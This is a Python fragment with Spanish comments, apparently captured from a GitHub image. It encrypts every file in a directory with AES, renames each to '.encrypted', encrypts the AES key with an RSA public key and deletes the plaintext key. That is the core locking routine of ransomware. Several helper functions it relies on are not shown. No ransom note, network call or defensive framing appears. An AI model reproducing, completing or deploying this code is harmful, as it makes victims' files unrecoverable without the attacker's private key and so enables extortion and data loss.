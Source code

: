 ```python
def cifrar_clave_aes(clave_aes):
    if not os.path.exists("rsa_public.pem"):
        raise FileNotFoundError("El archivo de clave pública RSA 'rsa_public.pem' no se encuentra.")
    
    with open("rsa_public.pem", "rb") as f:
        clave_publica = RSA.import_key(f.read())
    
    cipher_rsa = PKCS1_OAEP.new(clave_publica)
    clave_cifrada = cipher_rsa.encrypt(clave_aes)
    
    with open("aes_key_encrypted.bin", "wb") as f:
        f.write(clave_cifrada)
    
    print("Clave AES cifrada con RSA y guardada en 'aes_key_encrypted.bin'.")

# Función para cifrar todos los archivos en el directorio
def cifrar_archivos():
    # Generación de la clave AES si no existe
    generar_clave_aes_si_no_existe()

    directorio, archivos = find_files()  
    if not isinstance(archivos, list):
        print("Error: No se pudo obtener la lista de archivos.")
        return
    
    aes_key = load_aes_key()
    print("Clave AES cargada correctamente.")

    for archivo in archivos:
        archivo_absoluto = os.path.join(directorio, archivo)  # 'directorio' es el directorio base
        print(f"Intentando cifrar: {archivo_absoluto}")

        if os.path.isfile(archivo_absoluto):  # Asegura que es un archivo y no un directorio
            cifrar_archivo(archivo_absoluto, aes_key)
            ruta_nueva = archivo_absoluto + ".encrypted"
            
            # Asegurarse de renombrar de manera segura y evitar sobrescribir archivos
            try:
                os.rename(archivo_absoluto, ruta_nueva)
                print(f"Archivo renombrado a: {ruta_nueva}")
            except OSError as e:
                print(f"Error al renombrar el archivo {archivo_absoluto}: {e}")

    print("Archivos cifrados y renombrados correctamente.")

    # Cifrado de la clave AES
    cifrar_clave_aes(aes_key)
    
    # Eliminar la clave AES sin cifrar
    os.remove("aes_key.bin")
    print("Clave AES original eliminada.")

if __name__ == "__main__":
    cifrar_archivos()
```
